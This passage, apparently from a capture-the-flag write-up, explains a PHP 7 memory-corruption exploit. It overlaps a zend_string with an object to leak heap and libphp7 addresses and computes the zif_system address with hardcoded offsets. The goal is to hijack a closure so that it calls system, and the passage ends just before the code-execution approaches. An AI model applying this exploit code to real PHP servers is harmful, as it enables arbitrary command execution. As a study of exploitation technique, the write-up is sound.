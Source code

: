 ```c
    // for example: string is _zend_string* pointer and 0x6
};
```

The overlap is shown below:

```
string      object
gc          gc
h           handle
len	        ce
val+0       handlers
val+8       properties
val+16      first field
val+24      type of first field
       ...
```

### Leak

Therefore, we can leak pointer of object by reading content in `+0x10` offset. In addition, pointer `handlers` points to somewhere at `libphp7.so` so that we can also leak base address of `libphp7`.

```php
$helper = new Helper;
$helper->a = $helper;
$helper->b = function($x) {};
$helper->c = 0x1337;

$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x10);
// leaker address of $helper, which is also that of $abc
$helper->a = "helper"; 
// if we still have circular reference, 
// a strage crash will occur when rewriting string,
// so we remove circular reference here
$abc_addr = $php_heap + 0x18;
$libphp_addr = str2ptr($abc, 0) - 0xd73ec0;
$zif_system = $libphp_addr + 0x355a86;
// leak libphp and thus zif_system function
$helper->b = function($x){};
$closure_obj = str2ptr($abc, 0x20);
// leak a pointer pointing to a user-defined function object
```

By the way, the way to leak `abc_addr` resented in provided exploit does not work here, I don't know why. In addition, the ELF stuff inside provided exploit is not necessary, because we already know the `libphp7` so that `zif_system` address can be calculated directly.

### Code Execution

This is actually the part the got me stuck for very long time. The primary objective is to rewrite the function in `b` field to PHP system function. As the provided exploit suggests, we need to write `$closure_obj+0x38` to 1 and `$closure_obj+0x68` to `zif_system`.  I have came up with 4 approaches, but only the last one works:
